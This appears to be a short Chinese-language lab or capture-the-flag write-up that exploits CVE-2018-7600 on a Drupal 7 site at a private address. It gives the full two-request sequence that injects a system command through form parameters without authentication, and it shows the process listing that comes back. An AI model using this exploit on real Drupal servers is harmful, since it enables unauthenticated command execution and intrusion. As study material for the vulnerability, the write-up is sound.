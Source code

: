 一个**drupal7的cms**，存在的是**CVE-2018-7600漏洞**

**可以在没有用户认证的情况下执行命令**

**触发点在 `http://172.18.0.2/user/register?q=user/password`**

**POST发送**

```nginx
http://172.18.0.2/user/register?q=user/password&name[%23post_render][]=system&name[%23markup]=ps aux|grep "VehicleController"&name[%23type]=markup

body内容：
form_id=user_pass&_triggering_element_name=name
```

>   发送完请求后查看源代码找到 `name`为`form_build_id`的`value`的值

```html
<input type="hidden" name="form_build_id" value="form-hE-PdbjF1tCsOzbN_531jj-8Mswgdpi9fMQMVozOAF4" />
```

**再次发送请求包**

```nginx
http://172.18.0.2/?q=file/ajax/name/%23value/form-hE-PdbjF1tCsOzbN_531jj-8Mswgdpi9fMQMVozOAF4

body内容：
form_build_id=form-hE-PdbjF1tCsOzbN_531jj-8Mswgdpi9fMQMVozOAF4
```

**然后得到`VehicleController`程序的进程号**

```nginx
root        5391  0.1  0.1 1531648 9572 ?        Sl   Apr29   5:39 ./VehicleController
www-data    9935  0.0  0.0   2604   580 ?        S    11:52   0:00 sh -c ps aux|grep "VehicleController"
www-data    9937  0.0  0.0   5336   764 ?        S    11:52   0:00 grep VehicleController
[{"command":"settings","settings":{"basePath":"\/","pathPrefix":"","ajaxPageState":{"theme":"bartik","theme_token":"E79vniZEE-zzfgpitlig9usm6wMHUw5MFIux499Lqt4"}},"merge":true},{"command":"insert","method":"replaceWith","selector":null,"data":"","settings":{"basePath":"\/","pathPrefix":"","ajaxPageState":{"theme":"bartik","theme_token":"E79vniZEE-zzfgpitlig9usm6wMHUw5MFIux499Lqt4"}}}]

```

